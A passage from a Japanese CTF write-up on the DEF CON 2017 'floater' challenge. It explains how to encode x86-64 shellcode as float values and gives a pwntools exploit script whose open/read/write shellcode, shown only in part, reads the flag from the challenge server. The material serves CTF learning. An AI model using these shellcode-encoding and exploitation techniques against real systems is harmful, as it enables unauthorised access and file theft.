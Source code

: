 まとめると,

1. **shellcode は↑の処理を通しても変化しない25個の `float` 値で送る必要がある**
    - 小数点以下の数を持っていなければいい?
2. **shellcode の 4bytes 毎に 0x00000000 が入ることを考慮する必要がある**
    - 送られた `float` 値 (32bits) は 64bits の領域に順に書き込まれるため

いろいろ試したところ, shellcode を 3bytesの命令 + 0x68 (`push imm32`) で構成することで上手く行った.  
例えば `mov rdi, rax` は 0x48 0x89 0xc7, `push 0` は 0x68 0x00 0x00 0x00 0x00 となり, little-endian に直したときの下位 32bits の値 0x68c78948 を `float` として解釈してみると 7.538266577407427e+24 になるという感じである.

    $ python
    Python 2.7.13 (default, Feb 11 2017, 12:22:40) 
    [GCC 6.3.1 20170109] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import struct
    >>> struct.unpack('!f', '\x68\xc7\x89\x48')[0]
    7.538266577407427e+24

実際に作成したスクリプトと実行結果は次の通り.  
使えるシステムコールが限定されているので, Flag を `open` -> `read` -> `write` する shellcode を書いた. この縛りでファイル名 `"flag"` を生成することは厳しかったので, 最初に `read` してこちらから送り込むことで対処した. また, `mov rdi, 数値` のような命令は 3bytes に収まらないので, `xor rax, rax ; lea rdi, [rax+数値]` のような命令で何とかした.

```python
#!/usr/bin/env python2

# DEF CON 2017 Quals : floater

from pwn import *
import struct
import sys

context(os='linux', arch='amd64')

if 'remote' in sys.argv:
    r = remote('floater_f128edcd6c7ecd2ceac15235749c1565.quals.shallweplayaga.me', 754)
else:
    r = process('./floater-patched')

shellcode = [
    # read(0, stack, 0x80)
    '\x48\x89\xe6',   # mov rsi, rsp
    '\x48\x31\xc0',   # xor rax, rax
    '\x48\x89\xc7',   # mov rdi, rax
    '\x8d\x50\x10',   # lea rdx, [rax+10]
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x20)
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x40)
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x80)
    '\x0f\x05\x90',   # syscall ; nop
    # save big number
    '\x49\x89\xd0',   # mov r8, rdx
    # open(stack, 0, 0)
    '\x48\x89\xf7',   # mov rdi, rsi
    '\x48\x31\xf6',   # xor rsi, rsi
    '\x48\x31\xd2',   # xor rdx, rdx
    '\x8d\x42\x02',   # lea rax, [rdx+2]
    '\x0f\x05\x90',   # syscall ; nop
    # read(fd, stack, 0x80)
    '\x48\x89\xc7',   # mov rdi, rax
    '\x48\x89\xe6',   # mov rsi, rsp
    '\x4c\x89\xc2',   # mov rdx, r8
    '\x48\x31\xc0',   # xor rax, rax
    '\x0f\x05\x90',   # syscall ; nop
    # write(1, rsp, 0x80)
    '\x4c\x89\xc2',   # mov rdx, r8
```

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)